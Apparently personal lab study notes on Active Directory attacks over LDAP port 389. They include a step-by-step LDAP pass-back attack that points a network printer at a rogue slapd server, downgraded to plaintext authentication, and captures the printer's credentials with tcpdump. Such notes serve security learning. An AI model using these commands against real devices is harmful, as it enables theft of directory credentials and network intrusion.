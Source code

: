 **Port 389**

Lightweight Directory Access Protocol: similar to NTLM but the app directly verifies user creds. Popular with 3rd party apps that integrate with AD.
Gitlab, Jenkins, Custom-apps, printers, VPNs
If any public-facing, then NTLM style attacks will also work on them. LDAP services require their own set of AD credentials, adding another attack avenue. 
- We can recover the AD credentials used by the service to authenticate ![[Pasted image 20230303175109.png]]
- Gaining a foothold on the service then allows us to look at plaintext config files which often hold AD credentials
### LDAP Pass-back Attacks
If we have access to a device's config where LDAP parameters are specified, we can edit it to resolve our IP as LDAP server, passing ourselves as the authenticator and having the service send its LDAP credentials to us. This is useful because these configs are often stored in insecure places like the web interface of a network printer, while the LDAP credential file is more safely guarded. 

Example.
A network printer has an internet facing webpage for its own settings. 
1. Navigate to webpage, see cred input section and a connection IP section, its prefilled but the password is hidden.
2. Set the IP to local, apply settings, and try netcat on LDAP port 389 to catch an incoming packet. The connection breaks since LDAP requires some initialization
3. Host a rogue LDAP server instead, and downgrade it to allow plaintext authentication (kill any existing LDAP [[service]])
	1. `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd` , to download, install, and enable `slapd` (may have to be done outside of the VPN)
	2. `sudo dpkg-reconfigure -p low slapd` , to enter config
	3. run through config options (DC name -> ... -> any password -> MBD -> No to purge -> Yes to move)
	4. create downgrade config file: `olcSaslSecProps.ldif dn: cn=config replace: olcSaslSecProps olcSaslSecProps: noanonymous,minssf=0,passcred`
	5. `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart` to patch the server with our file
	6. `ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms` to verify that the mechanisms are "PLAIN" and "LOGIN"
4. Press Test Settings again to get it to connect and `sudo tcpdump -SX -i breachad tcp port 389`  to review the traffic [[tcpdump]]
5. Scroll through and find the authentication request and plaintext password